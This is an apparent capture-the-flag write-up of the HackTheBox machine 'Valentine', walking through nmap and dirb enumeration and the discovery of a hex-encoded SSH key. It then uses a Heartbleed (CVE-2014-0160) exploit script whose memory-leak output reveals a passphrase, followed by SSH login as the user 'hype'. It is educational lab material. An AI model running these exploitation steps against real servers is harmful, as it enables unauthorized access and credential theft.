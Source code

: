 # Valentine on HackTheBox
------
## 10th August 2018
------
![Image of Valentine](https://i.imgur.com/8HVRNyG.jpg)
### Introduction

Valentine was a extremely fun box for me which I would say is aimed at Beginner - Intermediate. If you are aware of industry recognised exploits & particularly exploits that are famous within the InfoSec community you will probably blitz straight through it in half an hour. Nevertheless it was a great box. 

Ps: If you do not know what HackTheBox is it is a Free/Paid resource found [Here](http://hackthebox.eu) which offers you a lab network littered with intentionally vulnerable boxes (Desktops, Servers, Web Applications, Domain Controllers etc) It really has so much to offer. 

Lets begin. 

## Enumeration - Initial

To kick off my enumeration I started it off as I usually do with a simple ```nMap``` Top 100 Ports Scan using the following syntax

``` nMap -A -verbose 4 10.10.10.79 ```
- The ``` -A ``` flag tells nMap to use aggresive scanning which bundles Service Detection & OS Detection into one. (Not necessary but I like to use it)
- The ``` -verbose 4 ``` sets the verbosity of the scan to 4 which provides me more information than a normal scan in real-time. (Highly useful if scanning all ports & need updates in real-time and not once the scan has finished) 


I also ran ``` nMap -A -p- -verbose 4 10.10.10.79 ``` which scanned all ```65,535``` TCP Ports however I will not show the output of this as the Top 100 ports output is all we need.

From the above nMap Scan we gather 3 ports of interest ```22 (SSH)```, ```80 (http)``` & ```443 (SSL/HTTPS)``` - Anytime I see Port 80 open on a box I immediately visit the box inside a web browser to see what is being hosted on the web server. 

In this case upon visiting ```http://10.10.10.79:80``` I was greeted a page with an image (The one above) I tried doing some Steganography on the image but it wasn't hiding anything - Boring! Time to enumerate this web server further...

### Enumeration - Dirb

As I have recently discovered that the server is running apache, It was fairly obvious to me that there may be a vulnerable web application somewhere that I had to find. I decided to use the handy tool ```dirb``` which can be parsed a wordlist containing known directory names and scan the web server... 

I kicked ```dirb``` off with the following syntax ``` dirb http://10.10.10.79``` This will automatically use the common.txt wordlist that comes with ```dirb```. I like to start with common.txt and if it finds nothing I can create custom wordlists depending on the nature of the box.

Luckily for me this time ```common.txt``` was more than enough and succesfully informed of directories on the server which could take me further. 
``` DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Jul 23 09:04:48 2018
URL_BASE: http://10.10.10.79/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.79/ ----
+ http://10.10.10.79/cgi-bin/ (CODE:403|SIZE:287)                                                      
+ http://10.10.10.79/decode (CODE:200|SIZE:552)                                                        
==> DIRECTORY: http://10.10.10.79/dev/                                                                 
+ http://10.10.10.79/encode (CODE:200|SIZE:554)                                                        
+ http://10.10.10.79/index (CODE:200|SIZE:38)                                                          
+ http://10.10.10.79/index.php (CODE:200|SIZE:38)
```

Very interesting, now I do not want to blabber on for ages about what was happening on each page but here's a breakdown of each page & directory.

* ``decode`` PHP Utility that decoded any Base64 String 
* ``encode`` PHP Utility that encoded any Base64 String 
* ``dev(directory)`` This was where I found something interesting... Inside the dev directory there was 2 things.
* 1. Notes.txt
* 2. hype_key

As you can see in the notes.txt screenshot it appears as if the decode/encode application running on the web server handles everything __server-side...__ as well as notes.txt we also discovered `hype_key`. Upon opening hype_key we are presented with a `hex` string. I used the following [website](http://www.convertstring.com/EncodeDecode/HexDecode) to convert `hex` to `text`. 

Upon succesfully converting the `hex` string I was greeted with an SSH Private Key - Woo! Maybe I could use this to SSH into Valentine?

### Enumeration - SSL

Now I have gathered the above information regarding Port `80` I decided to carry out some further enumeration on Port `443`, Upon visiting `http://10.10.10.79:443` my connection was dropped which in turn left me thinking it was a dead-end before my buddy gave me a little hint to enumerate it further ;) 

I decided to utilise a tool that comes with `kali` called `sslscan` - It is a great lightweight tool that is always worth running against a box with `HTTPS` open. 

```
root@kali:~/Desktop/Scripts/Valentine# sslscan 10.10.10.79
Version: 1.11.10-static
OpenSSL 1.0.2-chacha (1.0.2g-dev)

Testing SSL server 10.10.10.79 on port 443 using SNI name 10.10.10.79

  TLS Fallback SCSV:
Server does not support TLS Fallback SCSV

  TLS renegotiation:
Secure session renegotiation supported

  TLS Compression:
Compression disabled

  Heartbleed:
TLS 1.2 vulnerable to heartbleed
TLS 1.1 vulnerable to heartbleed
TLS 1.0 vulnerable to heartbleed
````

Pay attention to the last 3 lines __vulnerable to heartbleed__ - Great! Perhaps we can exploit the famous heartbleed vulnerability to read the memory on the server. 


## Exploiting - Piecing the Pieces Together!

Before we begin exploiting lets first talk about the `heartbleed` vulnerability we just discoverved the server is vulnerable too. The heartbleed bug was a critical vulnerability in the OpenSSL libary which can allow an attacker to read data from the server-memory which should be protected. 

Perhaps we can use heartbleed to read the server memory and intercept any encoding/decoding happening __server-side__.

I decided to use [this](https://gist.github.com/eelsivart/10174134) python script to exploit heartbleed rather than metasploit as I try my best to do everything manually or at least to not use metasploit.

I ran `heartbleed.py` with the following syntax `python heartbleed.py 10.10.10.79` - which returned the below output. *(One thing worth noting I actually had to run this script 10-15 times before getting the output I was after)*

```
root@kali:~/Desktop/Scripts/Valentine# python heartbleed.py 10.10.10.79

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.10.10.79:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==.j..!.)p.8.&...AL
```

Woohoo! As you can see I intercepted a string being encoded server side and was able to capture the following Base64 string `aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==` - After a quick decode I was left with the following `heartbleedbelievethehype`

### Exploiting - Logging in / First Shell

Now I had the `heartbleedbelievethehype` password I quickly noticed a common recurrence of the word `hype` - I had a stab in the dark by trying to SSH into Valentine with the below syntax

`ssh -i hype_keydecoded.txt hype@10.10.10.79`
Upon running this command I was prompted for a passphrase for the account... Easy `heartbleedbelievethehype`

Perfect! I was now logged into Valentine as the user hype and able to capture the User Flag! 

Time to try escalate privileges and take over the whole machine. 

## Privilege Escalation - Further Enumeration!
